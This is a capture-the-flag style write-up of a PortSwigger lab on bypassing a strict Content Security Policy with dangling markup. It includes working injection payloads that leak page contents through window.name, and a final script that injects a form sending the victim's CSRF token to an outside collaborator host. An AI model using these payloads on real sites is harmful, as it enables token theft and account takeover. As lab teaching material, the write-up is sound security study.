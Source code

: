 ### Lab: Reflected XSS protected by very strict CSP, with dangling markup attack
After we've logged in, we hit the endpoint:
```
https://0a2d006004c50adc80a335c400d10074.web-security-academy.net/my-account?id=wiener
```
On the page that we get back, we have the following:
```bash
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required="" type="email" name="email" value="">
    <input required="" type="hidden" name="csrf" value="v7Xx9rRq52EkoS8VjyKPWcFALllqY5zc">
    <button class="button" type="submit"> Update email </button>
</form>
```
It turns out if we add `&email=22` to the url, we see that it is reflected in the value of the email input:
```
https://0a2d006004c50adc80a335c400d10074.web-security-academy.net/my-account?id=wiener&email=22
```
```bash
<input required="" type="email" name="email" value="22">
```
With that knowledge we can try to break out of that email input element, and we try to inject e.g. an `<img>` element. 

We use the following payload: `"><img src="https://www.google.com/someimage"` but we have to **url encode** it.
```
https://0a2d006004c50adc80a335c400d10074.web-security-academy.net/my-account?id=wiener&email=%22%3e%3c%69%6d%67%20%73%72%63%3d%22%68%74%74%70%73%3a%2f%2f%77%77%77%2e%67%6f%6f%67%6c%65%2e%63%6f%6d%2f%73%6f%6d%65%69%6d%61%67%65%22
```
It worked. A new img element appeared on the page.
We also got the following err: `Refused to load the image 'https://www.google.com/someimage' because it violates the following Content Security Policy directive: "img-src 'self'"`

Because of the csp we can't really load external images. But we can anyway expect user to click on some button that we inject. So we try the following (we have to url encode, but here we're not doing it for the sake of readability):
```bash
...&email="><a href="http://localhost:3000">Click me</a><base target=haha>
```
`<base target=haha>` here plays an important role. When user clicks on "Click me" they are redirected to `http://localhost:3000`. (of course we can use malicious website instead of localhost) 
On malicious website (on localhost in our case) inside of dev tools when we write `window.name` we see `haha` returned. `haha` was specified as `target` in `<base target="haha">`

Now let's try dangling markup vulnerability:
It's important to remember what the initial page's html elements are:
```bash
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required="" type="email" name="email" value="">
    <input required="" type="hidden" name="csrf" value="v7Xx9rRq52EkoS8VjyKPWcFALllqY5zc">
    <button class="button" type="submit"> Update email </button>
</form>
```

So in the url we specify the following (of course url encoded version of it):
```bash
...&email="><a href="http://localhost:3000">Click me</a><base target='
```
And when we navigate to malicious website (`localhost` in this case) and in the console we type `window.name`, we then see the following:
```bash
'">\n <input required type="hidden" name="csrf" value="v7Xx9rRq52EkoS8VjyKPWcFALllqY5zc"><button class='
```
> Note: the technique above no longer works on port swigger academy, the lab has been updated. But the technique above is still important to understand, that's why it is described here

#### Working solution:
So this is what we have in the beginning:
```bash
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required="" type="email" name="email" value="">
    <input required="" type="hidden" name="csrf" value="v7Xx9rRq52EkoS8VjyKPWcFALllqY5zc">
    <button class="button" type="submit"> Update email </button>
</form>
```

Then on exploit server we'll have the following script (i.e. we close existing form and open a new one. New form is going to contain csrf input):
```bash
<script>
     window.location = 'https://0a00006004189203812fe924009d0012.web-security-academy.net/my-account?id=wiener&email=any"></form><form name="myForm" action="https://bhwfm3nmwftm5ddwansb9cw21t7kvfj4.oastify.com" method="GET"><button class="button" type="submit">Click</button'
</script>
```

That script above will change the page, so that now it includes 2 forms and 2 buttons:
```bash
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
</form>
<form name="myForm" action="https://exploit-0a7200750403ef5780cb07c501b500f3.exploit-server.net/exploit" method="GET"><button type="submit" class="button">Click</button">
    <input required type="hidden" name="csrf" value="oEKUbXmXgNrmUZMcaY4uw8vAA3uKZRSt">
    <button class='button' type='submit'> Update email </button>
</form>
```
When user clicks on "Click" button - csrf token is sent to the exploit server
Later we construct another attack to change the user's email with the csrf token that we got

